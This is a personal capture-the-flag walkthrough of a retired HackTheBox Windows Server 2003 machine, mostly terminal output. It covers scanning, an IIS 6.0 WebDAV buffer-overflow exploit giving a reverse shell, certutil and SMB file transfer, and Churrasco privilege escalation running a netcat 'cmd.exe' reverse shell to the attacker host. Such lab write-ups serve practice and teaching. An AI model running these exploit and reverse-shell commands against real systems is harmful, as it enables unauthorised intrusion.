

Practing retired hackthebox machines. Had trouble with this one, knew what I had to do, but didn't know how to do it. Need to practice more Windows machines.
crazyeights@es-base:~$ nmap -PS 10.10.10.14
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-02 11:09 EST
Nmap scan report for 10.10.10.14
Host is up (0.034s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE
80/tcp open http
crazyeights@es-base:~$ sudo nmap -sV 10.10.10.14
Not shown: 999 filtered ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 6.0
Index Page:
crazyeights@es-base:~$ nikto -h http://10.10.10.14
- Nikto v2.1.6
+ Server: Microsoft-IIS/6.0
+ Retrieved microsoftofficewebserver header: 5.0_Pub
+ Retrieved x-powered-by header: ASP.NET
[SNIP]
+ WebDAV enabled (PROPFIND COPY PROPPATCH UNLOCK LOCK SEARCH MKCOL listed as allowed)
[SNIP]
Microsoft IIS 6.0 - WebDAV 'ScStoragePathFrom | windows/remote/41738.py
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8754.patch
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authenticat | windows/remote/8806.pl
crazyeights@es-base:~$ searchsploit -x windows/remote/41738.py
Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269/blob/master/iis6%20reverse%20shell
nc -lvp 1234
python [exploit] [VICTIM IP] [PORT] [ATTACKER IP] [LISTENER PORT]crazyeights@es-base:~$ python iis_webdav_20177269.py 10.10.10.14 80 10.10.14.11 1234
c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
C:\>systeminfo
systeminfo
Host Name: GRANPA
OS Name: Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version: 5.2.3790 Service Pack 2 Build 3790
[SNIP]
C:\>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\
04/12/2017 04:27 PM <DIR> ADFS
04/12/2017 04:04 PM 0 AUTOEXEC.BAT
04/12/2017 04:04 PM 0 CONFIG.SYS
04/12/2017 04:32 PM <DIR> Documents and Settings
04/12/2017 04:17 PM <DIR> FPSE_search
04/12/2017 04:17 PM <DIR> Inetpub
12/24/2017 07:18 PM <DIR> Program Files
12/24/2017 07:27 PM <DIR> WINDOWS
04/12/2017 04:05 PM <DIR> wmpub
2 File(s) 0 bytes
7 Dir(s) 18,088,382,464 bytes free
wmpub - directory user nt authority\network service can write to
Finding users:
C:\>cd "Documents and Settings"
cd "Documents and Settings"
C:\Documents and Settings>dir
dir
Volume in drive C has no label.
Volume Serial Number is 246C-D7FE
Directory of C:\Documents and Settings
04/12/2017 04:32 PM <DIR> .
04/12/2017 04:32 PM <DIR> ..
04/12/2017 04:12 PM <DIR> Administrator
04/12/2017 04:03 PM <DIR> All Users
04/12/2017 04:32 PM <DIR> Harry
0 File(s) 0 bytes
5 Dir(s) 18,088,439,808 bytes free
C:\Documents and Settings>cd Harry
cd Harry
Access is denied.
C:\Documents and Settings>cd Administrator
cd Administrator
Access is denied.
C:\Documents and Settings>
There are two users:
Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation | windows/local/6705.txt
Microsoft Windows Server 2003 SP2 - Local Privilege Escalation (MS14-070) | windows/local/35936.py
This one must be correct - because OS version is not SP2
crazyeights@es-base:~$ searchsploit -x windows/local/6705.txt
Exploit: Microsoft Windows Server 2003 - Token Kidnapping Local Privilege Escalation
Exploit steps:
Found the executable for the exploit here:
https://github.com/Re4son/Churrasco/
Found the netcat executable for windows here:
https://eternallybored.org/misc/netcat/
Tried to use a webserver to transfer the exploit the target, didn't work:
crazyeights@es-base:~$ sudo cp Downloads/Churrasco-master/churrasco.exe /var/www/html/
[sudo] password for crazyeights:
crazyeights@es-base:~$ sudo service apache2 start
certutil.exe -UrlCache -split -f "http://10.10.14.11/churrasco.exe" bad.exe
crazyeights@es-base:~/tools/impacket/examples$ sudo python3 smbserver.py share /home/
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
C:\wmpub>copy \\10.10.14.11\share\churrasco.exe bad.exe
copy \\10.10.14.11\share\churrasco.exe bad.exe
1 file(s) copied.
C:\wmpub>copy \\10.10.14.11\share\nc.exe nc32.exe
copy \\10.10.14.11\share\nc.exe nc32.exe
1 file(s) copied.
nc -lvp 9999
C:\wmpub>.\bad.exe -d "C:\wmpub\nc32.exe -e cmd.exe 10.10.14.11 9999"
.\bad.exe -d "C:\wmpub\nc32.exe -e cmd.exe 10.10.14.11 9999"
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 680
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 696
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
C:\WINDOWS\TEMP>type "C:\Documents and Settings\Harry\Desktop\user.txt"
type "C:\Documents and Settings\Harry\Desktop\user.txt"
bdff5_i_dont_want_to_get_in_trouble
C:\WINDOWS\TEMP>type "C:\Documents and Settings\Administrator\Desktop\root.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"
9359e_i_dont_want_to_get_in_trouble
C:\WINDOWS\TEMP>
FIN. 🥳